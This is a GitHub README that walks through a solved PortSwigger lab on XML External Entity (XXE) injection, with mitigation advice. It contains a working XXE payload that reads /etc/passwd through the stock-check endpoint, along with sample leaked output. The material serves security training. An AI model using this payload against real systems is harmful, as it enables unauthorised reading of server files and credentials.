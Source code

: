 ### 📁 `README.md` — XXE via External Entity (Apprentice)

````markdown
# 📄 Exploiting XXE Using External Entities to Retrieve Files

**🧪 Lab Level:** Apprentice  
**🔐 Vulnerability:** XML External Entity (XXE)  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Retrieve the contents of `/etc/passwd` using a basic XXE injection.

---

## 🔍 Lab Summary

This lab demonstrates how an XML parser vulnerable to external entities can be exploited to read files from the server's filesystem.  
The "Check stock" feature parses XML input and reflects back invalid input in the response — which is ideal for testing XXE.

---

## 🚦 Steps to Exploit

### 📥 Original HTTP Request

```http
POST /product/stock HTTP/1.1
Host: [YOUR-LAB-HOST]
Content-Type: application/xml
Content-Length: [XX]

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 💣 Malicious Payload (External Entity Injection)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

---
![XXE](www.githup.com/kabilala/xxe/lab1/lab1.png)

### 🧾 Server Response

When the injection is successful, the server returns an error containing the contents of `/etc/passwd`:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

## 🧠 Technical Breakdown

| Component                                   | Purpose                                                                   |
| ------------------------------------------- | ------------------------------------------------------------------------- |
| `<!DOCTYPE>`                                | Declares a DTD (Document Type Definition)                                 |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Defines an external entity pointing to the target file                    |
| `&xxe;`                                     | Triggers the entity resolution, injecting file contents into the XML body |

---

## 🔐 Mitigation Techniques

To prevent this vulnerability in production systems:

* Disable DTD processing in your XML parsers
* Use secure libraries (e.g. `defusedxml` in Python, `SAXParserFactory.setFeature` in Java)
* Sanitize or avoid XML input from untrusted sources
* Apply the principle of least privilege: ensure the app cannot read sensitive files

---

## 📚 Resources

* [🛡️ PortSwigger XXE Labs](https://portswigger.net/web-security/xxe)
* [📄 OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [🔥 PayloadsAllTheThings: XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

---

## 👩‍💻 Author

**Kaouthar Belkebir**
Cybersecurity Enthusiast | Pentest Learner | PortSwigger & TryHackMe Explorer
[LinkedIn](https://www.linkedin.com/in/kaouthar-belkebir-ab453223b) | [Credly Certifications](https://www.credly.com/users/kawtar-belkebir)

```
